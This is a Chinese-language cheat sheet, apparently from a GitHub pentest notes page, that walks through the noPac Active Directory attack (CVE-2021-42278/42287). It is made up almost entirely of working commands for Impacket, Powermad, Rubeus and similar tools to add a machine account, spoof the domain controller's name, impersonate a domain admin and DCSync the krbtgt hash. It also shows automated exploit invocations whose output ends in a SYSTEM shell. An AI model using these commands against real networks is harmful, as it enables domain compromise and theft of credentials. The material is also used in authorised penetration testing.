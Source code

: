 	需要MachineAccountQuota > 0
#### 检查账户的MachineAccountQuota
  	>crackmapexec ldap 10.10.10.10 -u username -p 'Password123' -d 'domain.local' --kdcHost 10.10.10.10 -M MAQ
	>StandIn.exe --object ms-DS-MachineAccountQuota=*
#### 检查DC是否存在漏洞
  	>crackmapexec smb 10.10.10.10 -u '' -p '' -d domain -M nopac
#### EXPLOIT
##### 添加计算机账户
  	impacket@linux> addcomputer.py -computer-name 'ControlledComputer$' -computer-pass 'ComputerPassword' -dc-host DC01 -domain-netbios domain 'domain.local/user1:complexpassword'
	
	powermad@windows> . .\Powermad.ps1
	powermad@windows> $password = ConvertTo-SecureString 'ComputerPassword' -AsPlainText -Force
	powermad@windows> New-MachineAccount -MachineAccount "ControlledComputer" -Password $($password) -Domain "domain.local" -DomainController "DomainController.domain.local" -Verbose
	
	sharpmad@windows> Sharpmad.exe MAQ -Action new -MachineAccount ControlledComputer -MachinePassword ComputerPassword
##### 清除被控机器账户的servicePrincipalName 属性
  	impacket@linux> addspn.py -u 'domain\user' -p 'password' -t 'ControlledComputer$' -c DomainController

	powershell@windows> . .\Powerview.ps1
	powershell@windows> Set-DomainObject "CN=ControlledComputer,CN=Computers,DC=domain,DC=local" -Clear 'serviceprincipalname' -Verbose
##### (CVE-2021-42278) 将受控机器帐户 sAMAccountName 更改为域控制器的名称，不带尾随 $
  	impacket@linux> renameMachine.py -current-name 'ControlledComputer$' -new-name 'DomainController' -dc-ip 'DomainController.domain.local' 'domain.local'/'user':'password'

	powermad@windows> Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "DomainController" -Attribute samaccountname -Verbose
##### 为被控机器申请TGT
  	impacket@linux> getTGT.py -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController':'ComputerPassword'

	cmd@windows> Rubeus.exe asktgt /user:"DomainController" /password:"ComputerPassword" /domain:"domain.local" /dc:"DomainController.domain.local" /nowrap
##### 充值被控账户的sAMAccountName 到旧值
  	impacket@linux> renameMachine.py -current-name 'DomainController' -new-name 'ControlledComputer$' 'domain.local'/'user':'password'

	powermad@windows> Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "ControlledComputer" -Attribute samaccountname -Verbose
##### (CVE-2021-42287) 通过出示之前获得的 TGT 向 S4U2self 请求服务票证
  	impacket@linux> KRB5CCNAME='DomainController.ccache' getST.py -self -impersonate 'DomainAdmin' -spn 'cifs/DomainController.domain.local' -k -no-pass -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController'

	cmd@windows> Rubeus.exe s4u /self /impersonateuser:"DomainAdmin" /altservice:"ldap/DomainController.domain.local" /dc:"DomainController.domain.local" /ptt /ticket:[Base64 TGT]
##### DCSync
	DCSync: KRB5CCNAME='DomainAdmin.ccache' secretsdump.py -just-dc-user 'krbtgt' -k -no-pass -dc-ip 'DomainController.domain.local' @'DomainController.domain.local'
#### 自动exploit
  	https://github.com/cube0x0/noPac
	>noPac.exe scan -domain htb.local -user user -pass 'password123'
	>noPac.exe -domain htb.local -user domain_user -pass 'Password123!' /dc dc.htb.local /mAccount demo123 /mPassword Password123! /service cifs /ptt
	>noPac.exe -domain htb.local -user domain_user -pass "Password123!" /dc dc.htb.local /mAccount demo123 /mPassword Password123! /service ldaps /ptt /impersonate Administrator
	https://github.com/WazeHell/sam-the-admin
	>python3 sam_the_admin.py "caltech/alice.cassie:Lee@tPass" -dc-ip 192.168.1.110 -shell
	[*] Selected Target dc.caltech.white                                              
	[*] Total Domain Admins 11                                                        
	[*] will try to impersonat gaylene.dreddy                                         
	[*] Current ms-DS-MachineAccountQuota = 10                                        
	[*] Adding Computer Account "SAMTHEADMIN-11$"                                     
	[*] MachineAccount "SAMTHEADMIN-11$" password = EhFMT%mzmACL                      
	[*] Successfully added machine account SAMTHEADMIN-11$ with password EhFMT%mzmACL.
	[*] SAMTHEADMIN-11$ object = CN=SAMTHEADMIN-11,CN=Computers,DC=caltech,DC=white   
	[*] SAMTHEADMIN-11$ sAMAccountName == dc                                          
	[*] Saving ticket in dc.ccache                                                    
	[*] Resting the machine account to SAMTHEADMIN-11$                                
	[*] Restored SAMTHEADMIN-11$ sAMAccountName to original value                     
	[*] Using TGT from cache                                                          
	[*] Impersonating gaylene.dreddy                                                  
	[*]     Requesting S4U2self                                                       
	[*] Saving ticket in gaylene.dreddy.ccache                                        
	[!] Launching semi-interactive shell - Careful what you execute                   
	C:\Windows\system32>whoami                                                        
	nt authority\system 
	https://github.com/ly4k/Pachine
	>python3 pachine.py -dc-host dc.predator.local -scan 'predator.local/john:Passw0rd!'
	>python3 pachine.py -dc-host dc.predator.local -spn cifs/dc.predator.local -impersonate administrator 'predator.local/john:Passw0rd!'
	>export KRB5CCNAME=$PWD/administrator@predator.local.ccache
	>impacket-psexec -k -no-pass 'predator.local/administrator@dc.predator.local'